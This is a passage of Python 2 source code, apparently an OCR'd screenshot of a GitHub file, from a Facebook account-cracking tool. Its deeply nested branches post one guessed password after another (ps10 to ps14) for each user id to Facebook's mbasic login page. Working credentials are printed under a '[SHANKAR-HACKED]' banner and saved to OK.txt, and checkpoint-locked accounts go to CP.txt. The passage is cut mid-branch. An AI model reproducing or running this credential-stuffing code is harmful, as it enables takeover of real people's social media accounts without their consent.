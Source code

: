                                                     cp.write(uid + '|' + ps10 + '\n')
                                                    cp.close()
                                                    cps.append(uid + ps10)
                                                else:
                                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                        'email': uid,
                                                        'pass': ps11,
                                                        'login': 'submit' })
                                                    sp = data.content
                                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                        print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps11 + '\x1b[0;97m'
                                                        ok = open('OK.txt', 'a')
                                                        ok.write(uid + '|' + ps11 + '\n')
                                                        ok.close()
                                                        oks.append(uid + ps11)
                                                    elif 'checkpoint' in sp:
                                                        print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps11 + '\x1b[0;97m'
                                                        cp = open('CP.txt', 'a')
                                                        cp.write(uid + '|' + ps11 + '\n')
                                                        cp.close()
                                                        cps.append(uid + ps11)
                                                    else:
                                                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                            'email': uid,
                                                            'pass': ps12,
                                                            'login': 'submit' })
                                                        sp = data.content
                                                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                            print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps12 + '\x1b[0;97m'
                                                            ok = open('OK.txt', 'a')
                                                            ok.write(uid + '|' + ps12 + '\n')
                                                            ok.close()
                                                            oks.append(uid + ps12)
                                                        elif 'checkpoint' in sp:
                                                            print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps12 + '\x1b[0;97m'
                                                            cp = open('CP.txt', 'a')
                                                            cp.write(uid + '|' + ps12 + '\n')
                                                            cp.close()
                                                            cps.append(uid + ps12)
                                                        else:
                                                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                'email': uid,
                                                                'pass': ps13,
                                                                'login': 'submit' })
                                                            sp = data.content
                                                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                                print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps13 + '\x1b[0;97m'
                                                                ok = open('OK.txt', 'a')
                                                                ok.write(uid + '|' + ps13 + '\n')
                                                                ok.close()
                                                                oks.append(uid + ps13)
                                                            elif 'checkpoint' in sp:
                                                                print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps13 + '\x1b[0;97m'
                                                                cp = open('CP.txt', 'a')
                                                                cp.write(uid + '|' + ps13 + '\n')
                                                                cp.close()
                                                                cps.append(uid + ps13)
                                                            else:
                                                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                    'email': uid,
                                                                    'pass': ps14,
                                                                    'login': 'submit' })
                                                                sp = data.content
                                                                if 'mbasic_logout_button' in sp or 'save-device' in sp: